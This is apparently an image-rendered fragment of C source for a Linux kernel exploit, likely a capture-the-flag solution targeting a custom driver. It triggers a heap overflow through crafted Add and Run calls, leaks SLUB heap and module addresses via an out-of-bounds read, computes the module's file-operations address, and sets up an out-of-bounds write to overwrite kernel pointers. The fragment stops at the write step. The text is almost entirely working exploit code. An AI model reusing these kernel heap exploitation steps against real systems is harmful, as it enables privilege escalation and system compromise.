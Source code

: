 ```c
    char sendbuf[0x100];
    char recvbuf[0x10000];
    
    // printf("[+] Current UID: %d\n", getuid());
    my_memset(buf, 0, 0x100);

    int fd = __asm_my_open(path, 0);
    // if(fd == -1){
    //     puts("[-] open wrong, exit");
    //     exit(0);
    // }

    struct AddParam a;
    struct OtherParam r;

    // malloc 1024 - 48 = 0x3D0

    a.type = 0;
    a.key_len = 0x7a;
    a.key = buf;
    a.data_len = 0x16;  // overflow 2 bits of the key size
    a.data = buf + 0x80;
    my_memset(buf, 0x42, 1);

    Add(fd, &a);

    a.type = 3;
    a.key_len = 0x80;
    a.key = buf;
    a.data_len = 0x10;
    a.data = buf + 0x80;
    my_memset(buf, 0x42, 8);

    Add(fd, &a);

    my_memset(buf, 0x43, 8);
    Add(fd, &a);


    r.id = 0;
    Run(fd, &r);  // trigger overflow

    r.id = 1;
    r.data = sendbuf;
    r.key = recvbuf;
    Dump(fd, &r);   // chunk 1 OOB read, read chunk 2

    uint64_t slub_addr = *(uint64_t *)(recvbuf + 0x98);  // 0xffff888005318b70
    uint64_t kkk_addr = *(uint64_t *)(recvbuf + 0xb8);   // 0xffffffffc0000130

    uint64_t kkk_fops = 0xffffffffc0001180ul + kkk_addr - 0xffffffffc0000130ul;

    // printf("[+] slub_addr: 0x%lx\n", slub_addr);
    // printf("[+] kkk_addr: 0x%lx\n", kkk_addr);
    // printf("[+] kkk_fops: 0x%lx\n", kkk_fops);


    *(uint64_t *)(recvbuf + 0x90) = 0x80;   // key_len
    *(uint64_t *)(recvbuf + 0x98) = slub_addr;   // key_buf
    *(uint64_t *)(recvbuf + 0xa0) = 0x50;   // data_len
    *(uint64_t *)(recvbuf + 0xa8) = kkk_fops;   // data_buf    
    Update(fd, &r);  // chunk 1 OOB write, write chunk 2 

```